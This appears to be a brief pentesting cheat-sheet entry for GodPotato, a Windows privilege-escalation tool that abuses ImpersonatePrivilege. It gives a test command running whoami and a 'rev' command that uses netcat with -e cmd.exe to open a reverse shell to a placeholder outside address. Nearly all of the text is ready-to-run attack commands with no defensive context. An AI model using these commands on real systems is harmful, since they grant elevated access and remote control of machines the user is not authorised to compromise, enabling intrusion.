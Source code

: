 
requirements:<br>
ImpersonatePrivilege


GodPotato -cmd "cmd /c whoami"
<br>
rev<br>
GodPotato -cmd "C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 123.123.123 123"
